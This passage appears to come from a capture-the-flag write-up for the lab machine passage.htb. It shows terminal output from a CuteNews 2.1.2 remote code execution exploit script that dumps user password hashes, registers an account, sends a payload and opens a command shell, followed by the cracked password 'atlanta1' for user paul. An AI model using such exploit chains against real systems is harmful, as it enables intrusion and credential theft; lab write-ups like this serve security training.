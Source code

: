 ```
$ python3 48800.py



           _____     __      _  __                     ___   ___  ___ 
          / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |
         / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/ 
         \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/ 
                                ___  _________                        
                               / _ \/ ___/ __/                        
                              / , _/ /__/ _/                          
                             /_/|_|\___/___/                          
                                                                      

                                                                                                                                                   

[->] Usage python3 expoit.py

Enter the URL> http://passage.htb
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================

=============================
Registering a users
=============================
[+] Registration successful with username: T6iejum4p0 and password: T6iejum4p0

=======================================================
Sending Payload
=======================================================
signature_key: 93cc9868982b197fd95de590c77cf9b9-T6iejum4p0
signature_dsi: 4afbd01426014d57617027ee835dc2ad
logged in user: T6iejum4p0
============================
Dropping to a SHELL
============================

command > 
```

Cracking these hashes using john found a password **atlanta1**, which belongs to user **paul**, which I have discovered after some edits in the script to disclose this information, as seen below. 

```
Enter the URL> http://passage.htb
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
paul@passage.htb:e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
```

